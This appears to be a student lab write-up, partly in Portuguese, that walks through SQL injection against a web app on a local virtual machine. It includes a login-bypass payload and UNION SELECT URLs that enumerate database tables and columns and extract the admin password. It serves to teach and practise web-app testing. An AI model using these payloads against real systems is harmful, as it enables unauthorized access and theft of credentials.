





# Projeto
* Entrar na Vm
* Colocar o ip no browser

## Login com Administrador

   * Ir à pagina 'Terms & Conditions'
   * ScrollDown até encontrar o e-mail 'admin@integratingsolutions.net'
   * Ir à pagina do Login:
   
        e-mail: admin@integratingsolutions.net
        password: 'or '1'='1

    
## SQL Injections

* Finding out the table that stores the users:

		'or EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='users') AND '' ='
	The login goes through, which means that there is a table named 'users'

* Finding out all table names from the DB:
		
		http://192.168.56.101/products.php?type=2%20union%20select%20null,null,table_name,null,null%20from%20information_schema.tables%20--
		
	We were able to understand that the products page was vunerable to blind SQL Injections. With that in mind, we used union select from `information_schema.tables`. With this information we only had to find out the sintax of the columns in the table. Easily found that table_name column was the third
	

(...)

* Finding out the column names of a table:
	
		http://192.168.56.101/products.php?type=2%20union%20select%20null,null,column_name,null,null%20from%20information_schema.columns%20where%20table_name=%27tblMembers%27%20--
	
	After finding the table names, we can easly find out the columns of each table using the same type of SQL Injection. In this case we can find out the columns of the table `tblMembers`:
	

* Finding out the password of the administrator account:

		http://192.168.56.101/products.php?type=2%20union%20select%20null,null,password,null,null%20from%20tblMembers%20where%20username=%22admin@integratingsolutions.net%22
		
	Again, using the same SQL Injection type, we got to the password of the admin `admin@integratingsolutions.net`:

